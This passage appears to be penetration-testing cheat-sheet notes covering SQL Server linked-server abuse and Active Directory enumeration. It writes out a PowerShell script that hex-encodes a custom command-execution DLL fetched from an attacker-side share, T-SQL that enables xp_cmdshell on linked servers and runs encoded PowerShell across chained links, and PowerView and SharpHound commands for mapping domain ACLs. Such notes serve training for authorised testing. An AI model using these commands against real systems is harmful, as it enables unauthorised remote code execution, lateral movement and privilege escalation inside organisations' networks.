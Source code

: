 PS Convert Assembly to Hex

```
$assemblyFile = "\\192.168.119.120\visualstudio\Sql\cmdExec\bin\x64\Release\cmdExec.dll"
$stringBuilder = New-Object -Type System.Text.StringBuilder
$fileStream = [IO.File]::OpenRead($assemblyFile)
while (($byte = $fileStream.ReadByte()) -gt -1) {
    $stringBuilder.Append($byte.ToString("X2")) | Out-Null
}
$stringBuilder.ToString() -join "" | Out-File c:\Tools\cmdExec.txt
```

#### Query Links

OpenQuery

```
select version from openquery("dc01", 'select @@version as version')
```

Enable RPC and exec_cmdshell for execution

```
EXEC ('sp_configure ''show advanced options'', 1; reconfigure;') AT DC01;
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT DC01;
SELECT * FROM OPENQUERY(\"DC01\", 'select @@servername; exec xp_cmdshell ''powershell -enc [...]''');
```

Execute on links of links. 

```
EXEC ('sp_linkedservers') AT DC01

select mylogin from openquery("dc01", 'select mylogin from openquery("appsrv01", ''select SYSTEM_USER as mylogin'')')

EXEC ('EXEC (''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT appsrv01') AT dc01
```

---

## 7. Full Control

### Enumeration

#### PowerView

```
# import
. .\PowerView.ps1

# enum ACL
Get-ObjectAcl -Identity offsec

# sid convert
ConvertFrom-SID <sid>

# Local Group GPO
Get-DomainGPOLocalGroup -ResolveMembersToSIDs -domain vault.local

# Bloodhound
Invoke-Sharphound3 -Command "-c GPOLocalGroup,all -d vault.local"

# enum all ACLs
Get-ObjectAcl -Identity offsec -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}

```